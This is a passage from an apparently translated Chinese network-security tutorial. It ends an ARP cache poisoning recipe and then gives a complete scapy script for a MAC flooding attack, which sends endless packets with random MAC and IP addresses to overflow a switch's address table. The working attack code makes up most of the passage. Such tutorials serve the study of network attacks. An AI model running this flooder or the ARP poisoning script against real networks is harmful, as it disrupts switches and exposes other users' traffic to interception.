 9.  使用所需权限运行脚本：

```
sudo python3 arp-cache-poisoning.py  
```

# MAC 泛光器

我们可以通过网络发送随机以太网流量来填充路由器的 MAC 地址存储。这可能会导致交换机出现故障，并可能开始将所有网络流量发送给连接到路由器的每个人，否则可能会失败。

# 怎么做。。。

以下是在路由器中泛滥 MAC 地址存储的步骤：

1.  创建一个`mac-flooder.py`文件并在编辑器中打开。
2.  导入所需的模块：

```
import sys
from scapy.all import *  
```

3.  将`interface`定义为泛洪。我们也可以从论点中得出：

```
interface = "en0"  
```

4.  使用随机 MAC ID 和随机 IP 创建数据包：

```
pkt = Ether(src=RandMAC("*:*:*:*:*:*"), dst=RandMAC("*:*:*:*:*:*")) / \
        IP(src=RandIP("*.*.*.*"), dst=RandIP("*.*.*.*")) / \
        ICMP()

```

数据包结构如下所示：

![](../images/00057.jpeg)

5.  最后，以无限循环发送数据包：

```
try:
    while True:
       sendp(pkt, iface=interface)
except KeyboardInterrupt:
   print("Exiting.. ")
   sys.exit(0)  
```

6.  现在以所需权限运行该文件：

```
sudo python3 mac-flooder.py  
```
